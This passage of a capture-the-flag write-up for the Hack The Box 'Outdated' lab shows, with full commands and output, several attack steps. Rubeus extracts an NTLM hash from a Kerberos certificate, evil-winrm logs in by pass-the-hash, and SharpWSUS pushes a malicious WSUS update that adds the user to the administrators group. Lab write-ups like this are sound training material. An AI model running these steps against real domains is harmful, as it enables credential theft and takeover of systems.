N5xVrA7YvCurBWhkK3ukdj+Z2D2bt4RB0W9UKyU0zrOe++jhxM5NwDdk5snqAr3szZl+akwX5wspZws17tn9b8w/Nm9ayx9RZ4/CftcdK4PAaJOtHnhb0D9yV8ntRXK8i81vEprQ0+kd9R90QRO3Bg6Hf3VJr4gh0KvjwwCQB/QA1OhRgM74AzbGEfTI+mkmu7hefHcGRnnahlIBfHvwNnVSXeKd+qbQIbTsrUt2H0Yaj8WS/b0UWuL8Is7p8muPPH3xFdXMrguY7iYEzHl66rcjAFPxM5qcKU4oMNSjI7zpsLou1B1yQ8Q45och+Xs7o3tu7FZALcErsAC1tCPCZB2XiwO5nNe3PxhXVIHkaRtFW9VAfzO7kVDUuzis8NgtMU/kN5G6fHaJ+t8D+2aoiku6r9f1IQyDR7I9eepOsJQE0SHUJWC2D/KJjLUhasiY7nwS6ar4XBmQN0twGqRvKPExRvG5ng6CNp4ghxVydjO817ZSR533KDL79J43E8ACotyvOhzLpsUXQQ5y1CkqU+ITqCFdHnd3CswfEV/Dhga6RSWVBpzM+5hUizxufwo12paObSU5O0maVOylvV00xD/AKhqQweF3zhiCxtxqvXwMK8CxlOm3jPUiVwlTpamOUMBxceRomdRg7UF4+5cjHW2YTU4XJCMZV4S8igFyT4AJBmBeQ4Td7kMbXghjo/yAGKOasZSZ5AKjGvkhWX3p2eVE0RrEKtlSZIRpieWl8bqzA7MB8wBwYFKw4DAhoEFKOQyEl3cmnDLhyU2BcZjJ+apoU8BBQD4pXnQJGN0hcslajy1KjoymWQXAICB9A= /password:"hXrbj8cXSRlDXanQ" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show


   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  11/7/2022 7:49:30 PM
  EndTime                  :  11/8/2022 5:49:30 AM
  RenewTill                :  11/14/2022 7:49:30 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Z+EeHZ55dvE2nA1NwU3vNw==
  ASREP (key)              :  FD354BE0581A056BB7B9E9AE03F0F0F8

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

Now we can use the NTLM hash ```1FCDB1F6015DCB318CC77BB2BDA14DB5``` of the user ```sflowers``` using ```evil-winrm```:
```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sflowers\Documents> whoami
outdated\sflowers
*Evil-WinRM* PS C:\Users\sflowers\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\sflowers\Desktop> dir


    Directory: C:\Users\sflowers\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/3/2022   4:19 PM         514472 PsExec64.exe
-ar---        11/7/2022   7:14 PM             34 user.txt


t*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
75fe7817d71a5eea32a5f4040dc91f49
```

And we get the user flag ```75fe7817d71a5eea32a5f4040dc91f49```.

### Root

By running ```winpeas``` we can see the following: 
```console
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] WSUS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] You can inject 'fake' updates into non-SSL WSUS traffic (WSUXploit)
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus
    WUServer    REG_SZ    http://wsus.outdated.htb:8530

```

We can compromise the system if the updates are not requested using HTTPS (Reference)[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus].

We can validate it using the following registry key:
```console
*Evil-WinRM* PS C:\Users\sflowers\Downloads> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
    AutoInstallMinorUpdates    REG_DWORD    0x1
    NoAutoUpdate    REG_DWORD    0x0
    AUOptions    REG_DWORD    0x3
    ScheduledInstallDay    REG_DWORD    0x0
    ScheduledInstallTime    REG_DWORD    0x3
    ScheduledInstallEveryWeek    REG_DWORD    0x1
    UseWUServer    REG_DWORD    0x1
```

```UseWUServer``` is ```1``` meaning the machine is exploitable.

To exploit it we need to use a tool called ```SharpWSUS```, which will create an update and approve it for deployment to a machine.
 
We can get ```SharpWSUS``` from [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1).

Now we can create a new update using the following command to add ```sflowers``` to the ```administrators``` group using ```PsExec64.exe```:
```console
*Evil-WinRM* PS C:\Users\sflowers\Downloads> .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c 'net localgroup administrators sflowers /add'" /title:"meowmeow1"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Users\sflowers\Desktop\PsExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c 'net localgroup administrators sflowers /add'
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &amp;#39;net localgroup administrators sflowers /add&amp;#39;


################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 30
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 31
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:99630beb-fba1-4133-82be-dc884a7ab4ee /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:99630beb-fba1-4133-82be-dc884a7ab4ee /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:99630beb-fba1-4133-82be-dc884a7ab4ee /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete

```

Now we need to deploy it using:
```console
*Evil-WinRM* PS C:\Users\sflowers\Downloads> .\SharpWSUS.exe approve /updateid:99630beb-fba1-4133-82be-dc884a7ab4ee /computername:dc.outdated.htb /groupname:"evyatar9"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: evyatar9
Added Computer To Group
Approved Update

[*] Approve complete
```

Check the update status using:
```console
*Evil-WinRM* PS C:\Users\sflowers\Downloads> .\SharpWSUS.exe check /updateid:99630beb-fba1-4133-82be-dc884a7ab4ee /computername:dc.outdated.htb

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1

[*] Update is installed

[*] Check complete
```

Once the update is installed we need to re-login and run ```net user sflowers``` to validate:
```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sflowers\Documents> net user sflowers
User name                    sflowers
Full Name                    Susan Flowers
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2022 10:04:09 AM
Password expires             Never
Password changeable          6/21/2022 10:04:09 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/15/2022 9:48:27 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *WSUS Administrators
Global Group memberships     *Domain Users
The command completed successfully

```

And we can see that we are in the ```Administrators``` group.

```console
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
9b33aa06cac9bd85fe15723c988026ed
```

And we get the root flag ```9b33aa06cac9bd85fe15723c988026ed```.